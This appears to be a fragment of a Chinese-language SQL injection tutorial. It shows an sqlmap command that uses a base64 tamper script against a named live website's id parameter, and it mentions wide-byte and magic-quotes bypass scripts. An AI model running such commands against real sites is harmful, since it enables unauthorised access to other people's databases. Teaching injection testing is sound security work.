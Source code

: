```plain
这时候需要使用到tamper脚本（SQLmap自带）：
python310 sqlmap.py -u "http://knotsolutions.com/case_study_view.php?id=" --tamper=base64encode.py
```

![1645160919520-470d0d25-7b5c-4a6b-b362-75783d4c483e.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132703278-1912680499.png)

```plain
宽字节也可以进行绕过，在tamper脚本上，脚本名称：unmagicquoates.py

在php中，有magicquoates转义开关。
```